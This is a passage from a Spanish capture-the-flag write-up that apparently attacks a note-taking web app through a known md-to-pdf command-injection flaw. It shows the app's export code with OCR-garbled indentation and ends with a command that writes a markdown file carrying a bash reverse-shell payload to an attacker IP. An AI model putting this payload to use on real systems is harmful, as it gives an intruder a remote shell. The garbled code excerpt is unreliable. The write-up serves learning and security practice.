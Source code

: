 ```python
 
	                if os.path.isfile(attachment_dir + f'{str(rand_int)}.pdf'):
 
		                return send_file(attachment_dir + f'{str(rand_int)}.pdf', as_attachment=True)
 
                     else:
		                 return render_template('export_note.html', error="Error occured while exporting the !")
 
				 except Exception as e:
	                return render_template('export_note.html', error="Error occured!")
 
 
             else:
                 return render_template('export_note.html', error=f"Error occured while exporting ! ({error})")
             
         except Exception as e:
	         return render_template('export_note.html', error=f"Error occured while exporting ! ({e})")
 
	else:
	    abort(403)
```

Además, vemos que `md-to-pdf.js` se ejecuta con _NodeJS_. Haciendo una búsqueda por internet nos encontramos una [vulnerabilidad](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) que podríamos probar en la sección de la web _Export Notes_ que se otorga solamente para usuarios 'VIP':
![Export Notes Noter ](/assets/favicon/2022-09-03/noter4.png)

Creamos un archivo malicioso:
```shell
rabb1t@hold:~$ echo "--';bash -i >& /dev/tcp/10.10.14.44/4433 0>&1;'--" > rev.md 
```
